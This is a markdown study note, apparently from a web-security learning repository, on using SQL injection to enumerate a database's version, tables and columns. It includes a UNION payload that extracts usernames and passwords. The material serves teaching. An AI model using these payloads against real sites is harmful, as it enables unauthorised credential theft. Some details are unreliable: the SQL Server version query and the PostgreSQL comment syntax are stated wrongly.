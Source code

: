 # Examining the Database via SQL Injection

## Goal
When exploiting a SQL injection, one of the first steps after confirming the vulnerability is to **enumerate the database**.  
We want to discover:
- The **type and version** of the DBMS.
- The **tables** present in the database.
- The **columns** inside interesting tables.

This information forms the basis for deeper exploitation and data extraction.

---

## Techniques

### 1. Identifying Database Type and Version
Different databases have specific built-in queries for retrieving version information.

- **Oracle**
  ```sql
  SELECT banner FROM v$version;
  ```
- **MySQL & Microsoft**
    ```sql
    SELECT version();
    ```

### 2. Listing Database Tables
In this case we have to make a distinction between *Oracle* databases and *Non-Oracles* ones.
- For Non-Oracle databases we can use the standard view named **information schema** that gives us a view over the entire    database.
     ```sql
    SELECT table_name FROM information_schema.tables;
     ```
- For Oracle-specific databases we would use the **all_tables** view.
    ```sql
    SELECT table_name FROM all_tables;
    ```

### 3. Listing Columns of a Specific Table
- For Non-Oracle databases we can query **information_schema.columns** and in particular one of its columns named **column_name**.
    ```sql
    SELECT column_name 
    FROM information_schema.columns 
    WHERE table_name='users';
    ```
- For Oracle-specific databases we can query **all_tab_columns** and its column **column_name**.
    ```sql
    SELECT column_name 
    FROM all_tab_columns 
    WHERE table_name='USERS_TABLE';
    ```

### 4. Extracting Data
- Once the database tables and their columns have been identified we can proceed with **UNION-Based** queries to retreive sensitive infomation.
    ```sql
    ' UNION SELECT username, password FROM users--
    ```
## Notes
- Remember always to determine the **number of columns** returned by the vulnerable query, using `NULL` placeholders
- The **comment syntax** differs depending on the type of database:
    - `--` in Oracle, MySQL, SQL Server
    - `#` in MySQL, PostgreSQL